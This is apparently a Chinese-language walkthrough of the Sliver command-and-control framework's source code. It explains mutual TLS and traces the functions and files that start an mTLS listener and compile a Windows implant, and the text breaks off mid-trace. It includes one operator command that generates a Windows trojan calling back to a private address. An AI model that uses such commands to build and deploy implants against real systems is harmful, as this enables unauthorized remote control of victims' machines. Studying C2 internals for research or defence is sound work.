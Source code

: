 ## 启动监听器与生成木马

通讯协议: 指的是木马和服务端,客户端和服务端进行通信所采用的协议类型.在目标能出网的情况下,Sliver支持MTLS、WireGuard、HTTPS、DNS这4种协议.也就是创建监听器时可以选择创建这4种类型的监听器.

### MTLS

MTLS: 全称是Mutual TLS,中文翻译为双向TLS,即客户端和服务端都互相验证对方的证书.在传统的TLS场景中,只有客户端验证服务端的证书,服务端并不会验证客户端发来的证书.这个技术在APP中也有使用,是为了防止用burpsuite、fiddler等工具抓包,burpsuite、fiddler等工具会用自己生成的证书伪造客户端、服务端对流量进行加解密,从而完成看到HTTPS数据包明文的目的.如果服务端对burpsuite、fiddler等工具的证书进行检测,那么burpsuite、fiddler等工具是抓不到HTTPS数据包的.sliver的mtls也是客户端和服务端都互相验证对方的证书,即Implant和mtls监听器都互相验证对方的证书然后再进行数据的交互.

#### MTLS监听器

通过在服务端控制台输入mtls,就可以按照默认配置启动一个mtls类型的监听器了,在代码中搜索Start an mTLS listener可以定位到相关代码,位于client/command/jobs/commands.go中第41行,这条命令绑定的函数是MTLSListenerCmd.

```
MTLSListenerCmd函数位于client/command/jobs/mtls.go文件中,此函数没有多少代码,就是根据host、port等参数来创建一个监听器
```

接下来进入StartMTLSListener,位于server/rpc/rpc-jobs.go文件中第109行,继续跟进,在122行进入StartMTLSListenerJob函数,位于server/c2/jobs.go.然后来到StartMutualTLSListener函数,这个函数是完成主要功能的,位于server/c2/mtls.go文件中.

```
StartMutualTLSListener函数首先在数据库中查找CA类型为mtls-server、key类型为ecc的PEM格式的证书,如果数据库中不存在,则新创建证书并保存到数据库中.

然后获取TLS配置,获取配置的过程中,会在root/.sliver/certs目录中获取mtls-implant-ca-cert.pem、mtls-implant-ca-key.pem这2个文件的内容,并把这2个证书解析为x509格式的证书.新建一个
x509证书池,把得到的证书保存到这个池里,是为了后面客户端和服务端相互检验对方证书.

接下来把从数据库中查找到的CA类型为mtls-server、key类型为ecc的PEM格式的证书解析成x509证书.接下来就是根据得到的这些证书和指定的端口进行监听.

最后开一个协程,用acceptSliverConnections来处理接收到的请求.开启mtls的监听器代码流程到这里就结束了.
```

#### MTLS木马

在服务端控制台输入generate --mtls 172.16.181.182:443 --os windows --arch amd64就可以生成一个用mtls协议通信的windows 64位的木马

搜索Bind("generate"可以发现generate这个命令的相关执行入口为client/command/generate/commands.go的第21行代码,继续跟进GenerateCmd函数,这个函数入口位于client/command/generate/generate.go第91行,对GenerateCmd函数进行分析.接下来来到parseCompileFlags函数,位于同文件的第184行.

parseCompileFlags: 

```
首先是解析输入的命令参数,完成一些默认配置,因为没有指定外在的编译器,来到同文件第91行compile函数,开始生成木马
```

compile: 

```
输入一些信息,来到同文件第925行,跟进con.Rpc.Generate,位于protobuf/rpcpb/services_grpc.pb.go文件
```
